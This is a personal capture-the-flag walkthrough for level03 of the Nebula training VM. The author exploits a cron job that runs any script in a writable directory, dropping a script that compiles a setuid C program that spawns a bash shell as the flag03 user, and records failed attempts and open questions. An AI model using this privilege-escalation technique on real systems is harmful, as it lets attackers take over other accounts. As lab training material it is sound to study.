 # For level03 in nebula

>Check the home directory of flag03 and take note of the files there.
>  
>There is a crontab that is called every couple of minutes.
>  
>To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.

There is no source code given.

### Seeing what is goes on

There are only a file `writable.sh` and a directory `writable.d`.
```
level03@nebula:~$ cd /home/flag03
level03@nebula:/home/flag03$ ls
writable.d  writable.sh
```

This is the shell script in `writable.sh`:
```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
It iterates through everything in the directory `writable.d`, runs them, then deletes them. `(ulimit -t 5; bash -x "$i")` is run in a [subshell](https://www.gnu.org/software/bash/manual/html_node/Command-Grouping.html).

`ulimit -t 5` limits the shell and its processes to 5 seconds of CPU time. 

`bash -x "$i"` runs the file whose name is in variable `$i`. 



Ok... Cool to know. ¯\(°_o)/¯. So what?

Then, I realised that the `crontab` that was called very couple of minutes was *that* shell script.
```
level03@nebula:/home/flag03$ touch writable.d/test{1..3}
level03@nebula:/home/flag03$ ls writable.d
test1  test2  test3
level03@nebula:/home/flag03$

---after a few minutes---

level03@nebula:/home/flag03$ ls writable.d
level03@nebula:/home/flag03$
```
Okay, cool. And now what? ¯\_(⊙︿⊙)_/¯ 

Our goal, as always, is to get the output "You have successfully executed getflag on a target account" from executing the command `getflag` as user `flag03`. How exactly is `crontab` going to help us achieve that?

Recall that in the previous levels, we learnt about *setuid programs*. We made use of one such program to change the process' real UID to our desired user, then spawned a bash shell as said user. Let's take a moment to think how we can use that knowledge here.

Hint:
>Each user has their own crontab, and commands in any given crontab will be executed as the user who owns the crontab. [source](https://linux.die.net/man/5/crontab)

### Winning strategies (or so I thought)

- Solution 1: Unlike the previous levels, there is no setuid program here owned by `flag03`. So, let's create our own. 
```
level03@nebula:~$ cat attempt1.c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

int main() {

	uid_t euid = geteuid();
	gid_t egid = getegid();
	
	setresuid(euid, euid, euid);
	setresgid(egid, egid, egid);
	
	system("/bin/bash");
}
```
We create a bash file in `/home/flag03/writable.d` to compile the C program and set its `setuid` bit.
```
level03@nebula:~$ cat attempt1.sh 
gcc -o /home/flag03/a.out /home/level03/attempt1.c; chmod +x /home/flag03/a.out; chmod +s /home/flag03/a.out
level03@nebula:~$ cp attempt1.sh /home/flag03/writable.d/
level03@nebula:~$ ls /home/flag03/writable.d/
attempt1.sh
level03@nebula:~$ 
```
`Cron` should compile `attempt1.c` into an executable setuid program that we can later call to spawn us a shell as user `flag03`.

```
--- after a few minutes ---

level03@nebula:~$ ls /home/flag03/writable.d/
level03@nebula:~$ ls /home/flag03/
writable.d  writable.sh
level03@nebula:~$ 
```
What the hell? Where is my `a.out`? Since `/home/flag03/writable.d/attempt1.sh` is deleted, that means `cron` ran that bash script. But `a.out` is nowhere to be found! ٩(╬ʘ益ʘ╬)۶

Temporary setback... I have another solution in mind.


- Solution 2: Our goal is to get the output "You have successfully executed getflag on a target account" from executing `getflag` as `flag03`, so why not just execute `getflag` in the bash script directly instead of beating the bush?

```
level03@nebula:~$ echo -e '/bin/getflag >> /tmp/output' > attempt2.sh && chmod +x attempt2.sh && cp attempt2.sh /home/flag03/writable.d/attempt2.sh && touch /tmp/output && ls /home/flag03/writable.d
attempt2.sh
level03@nebula:~$ 
```
`/bin/getflag >> /tmp/output` executes `/bin/getflag` and pipes its output to `/tmp/output`. When `cron` runs this bash script, it will execute `/bin/getflag` as `flag03`. (At least ideally)

```
--- after a few minutes ---

level03@nebula:~$ cat /tmp/output 
level03@nebula:~$
```
What in the actual hell? Where's my output? Since `/home/flag03/writable.d/attempt2.sh` is deleted, that means `cron` ran that bash script. But `/tmp/output` is empty.

### A solution finally worked

In order for solution 1 to work, I had to move `attempt1.c` and `attempt.sh` to `/tmp`.

```
level03@nebula:/home/flag03/writable.d$ mv /home/level03/attempt1.c /tmp/
level03@nebula:/home/flag03/writable.d$ mv /home/level03/attempt1.sh /tmp/
level03@nebula:/home/flag03/writable.d$ ls
level03@nebula:/home/flag03/writable.d$ cat /tmp/output 
level03@nebula:/home/flag03/writable.d$ nano /tmp/attempt1.sh
level03@nebula:/home/flag03/writable.d$ cp /tmp/attempt1.sh .
level03@nebula:/home/flag03/writable.d$ ls
attempt1.sh

--- after a few minutes ---

level03@nebula:/home/flag03/writable.d$ ls
level03@nebula:/home/flag03/writable.d$ ls ..
a.out  writable.d  writable.sh
level03@nebula:/home/flag03/writable.d$ cd ..
level03@nebula:/home/flag03$ ./a.out 
flag03@nebula:/home/flag03$ getflag
You have successfully executed getflag on a target account
flag03@nebula:/home/flag03$ 
```
It worked!  ᕕ( ᐛ )ᕗ

### Doubts
I have some doubts however, that perhaps you, the reader, may be able to help me solve.

- Doubt 1:
I thought `attempt1.c` had to be in `/tmp` because only that way, `flag03`'s cronjob could read and compile the program.
Afterall, `/tmp` has read and write permissions for all: `drwxrwxrwt  4 root root  160 2018-04-01 08:45 tmp`. 

I thought perhaps `flag03` had no access to `level03`'s directory. But the permissions show that `flag03` and `level03` belong to the same group called `level03`. They have read and execution permissions to each other's directories.
```
drwxr-x--- 1 flag03  level03  80 2018-04-01 08:36 flag03
drwxr-x--- 1 level03 level03 180 2018-04-01 08:25 level03
```
so, it does not make sense to me that a process with `RUID flag03` is unable to compile an executable in `/home/level03`.

- Doubt 2:
I tried to move `attempt2.sh` from `/home/level03` to `/tmp` like I did to solve solution 1, but it still failed to work. (ᗒᗣᗕ)՞
```
level03@nebula:/tmp$ ls
attempt1.c  attempt1.sh  attempt2.sh  level03.c  output
level03@nebula:/tmp$ cat attempt2.sh 
/bin/getflag >> /tmp/output
level03@nebula:/tmp$ ls /home/flag03/writable.d
attempt2.sh

--- after a few minutes  ---

level03@nebula:/tmp$ cat /tmp/output 
level03@nebula:/tmp$ 
```
Please, if you know why it does not work, tell me why. 

### Seeing what cronjob was being run

Just out of curiousity, I decided to see what `cronjob` user `flag03` was running. `flag03@nebula:/tmp$ crontab -l` gave the output `*/3 * * * * /home/flag03/writable.sh`, showing that `writable.sh` was executed every 3 minutes.


END
